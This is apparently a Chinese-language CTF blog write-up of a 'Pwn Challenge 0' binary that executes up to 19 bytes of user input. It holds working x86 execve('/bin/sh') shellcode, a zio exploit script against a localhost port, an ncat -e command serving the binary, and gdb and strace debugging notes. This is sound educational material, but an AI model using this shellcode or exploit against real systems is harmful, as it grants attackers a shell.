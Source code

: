 ```yaml
---
category: CTF
title: Pwn Challenge 0
---
```


## Pwn Challenge 0

> 遇到一个简单的Pwn，记录一下，有一些有意思的问题也放在这里。

### Pwn汇编代码

这个程序很简单，Binary在[这里]({{ site.url }}/resources/Binary/2017-05-06-pwn_1)，直接把它的反汇编贴在下面：

```
.text:0804847D                 push    ebp
.text:0804847E                 mov     ebp, esp
.text:08048480                 and     esp, 0FFFFFFF0h
.text:08048483                 sub     esp, 30h
.text:08048486                 mov     dword ptr [esp+8], 14h
.text:0804848E                 lea     eax, [esp+13h]
.text:08048492                 mov     [esp+4], eax    ; buf
.text:08048496                 mov     dword ptr [esp], 0 ; fd
.text:0804849D                 call    _read
.text:080484A2                 mov     byte ptr [esp+26h], 0
.text:080484A7                 lea     eax, [esp+13h]
.text:080484AB                 mov     [esp], eax      ; s
.text:080484AE                 call    _strlen
.text:080484B3                 mov     [esp+4], eax
.text:080484B7                 mov     dword ptr [esp], offset format ; "%d welcome\n"
.text:080484BE                 call    _printf
.text:080484C3                 lea     eax, [esp+13h]
.text:080484C7                 mov     [esp+2Ch], eax
.text:080484CB                 mov     eax, [esp+2Ch]
.text:080484CF                 call    eax
.text:080484D1                 leave
.text:080484D2                 retn
.text:080484D2 main            endp
```

### 分析

这个题的设定很刻意，现实中恐怕见不到这么明显的漏洞了。大概说一下，就是我们输入的内容会被当做指令执行，然而我们最多只能输入19个字节。输入的东西就直接是shellcode，也不用劫持控制流了（也劫持不了，19个字节不够覆盖到返回地址）。现在就考虑找一段shellcode。

[Exploit-db](https://www.exploit-db.com/shellcode/)在这时就显得非常有用了。可以直接找指定长度的shellcode。我找了一个19字节的：

```
;================================================================================
; The MIT License
;
; Copyright (c) <year> <copyright holders>
;
; Permission is hereby granted, free of charge, to any person obtaining a copy
; of this software and associated documentation files (the "Software"), to deal
; in the Software without restriction, including without limitation the rights
; to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
; copies of the Software, and to permit persons to whom the Software is
; furnished to do so, subject to the following conditions:
; 
; The above copyright notice and this permission notice shall be included in
; all copies or substantial portions of the Software.
; 
; THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
; IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
; FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
; AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
; LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
; OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN
; THE SOFTWARE.
;================================================================================
;     Name : Linux/x86 - execve(/bin/sh") shellcode (19 bytes)
;     Author : WangYihang
;     Email : wangyihanger@gmail.com
;     Tested on: Linux_x86
;     Shellcode Length: 19
;================================================================================
; Shellcode : 
char shellcode[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Python : 
        shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Assembly language code : 
global _start
        _start:
                push 0bH
                pop eax
                cdq
                push edx
                push "//sh"
                push "/bin"
                mov ebx, esp
                int 80H
;================================================================================
```

然后用zio写一个Exp：

{% highlight python %}
from zio import *

IP = "127.0.0.1"
port = 10000

shellcode = '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n'
conn = zio((IP, port))
#conn = zio("./pwn_1")
conn.write(shellcode)
conn.interact()
{% endhighlight %}

用ncat把漏洞程序挂上：

```
ncat -l 10000 -e ./pwn_1
```

### 问题

**一 | IDA Pro反编译出错**

IDA Pro在遇到这种`call eax`指令时会出错。报

```
Decompilation failure:
80484CF: call analysis failed
```

想想也能想得通，相当于指令是运行时才确定的，它当然不能被静态分析了。

**二 | 打开的shell直接退出**

这个问题发生在手动输入shellcode的时候。如下：

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" | ./pwn_1
```

这样直接就退出了。为了查看细节，我先

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" > shellcode
```

然后在gdb中

```
r < shellcode
```

单步执行到`int 0x80`后，发现gdb提示

```
process 26793 is executing new program: /bin/dash
```

说明shell成功打开了呀。

我们再用strace追一下：

```
strace ./pwn_1 < shellcode
```

我们看到

```
execve("/bin//sh", [0], [/* 0 vars */]) = 0
```

然而，execve正常执行成功时是不会返回的。这里为什么返回了呢？上面用zio写的脚本在interact()后成功连接上了打开的shell，没有直接退出呀。

在[网上的一篇文章](http://www.purpleroc.com/md/2016-02-25@Thinking-About-Level2.html)的提示下，我gdb不设断点，直接`r < shellcode`可以看到出错提示：

```
[New process 28700]
/bin/dash: not found
[Inferior 2 (process 28700) exited with code 0177]
```

这个出错码0177和上面提到的文章里是一样的。情况很类似，不同的是我是通过`int 0x80`来调用execve，他是通过`system()`来调用。

来看一下在即将执行`int 0x80`时寄存器和栈的情况：

```
EAX: 0xb ('\x0b')
EBX: 0xbffff660 ("/bin//sh")
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbffff6a8 --> 0x0 
ESP: 0xbffff660 ("/bin//sh")

gdb-peda$ x/10x $esp
0xbffff660:     0x6e69622f      0x68732f2f      0x00000000      
```

感觉没问题呀，shellcode也是有效的。这是为什么呢？留坑吧。

### 附录

**验证shellcode是否有效**

将从Exploit-db上拿到的shellcode汇编代码保存为`shell.asm`，

```
nasm -f elf shell.asm
ld -o shell shell.o
```

执行一下，看看能否打开shell。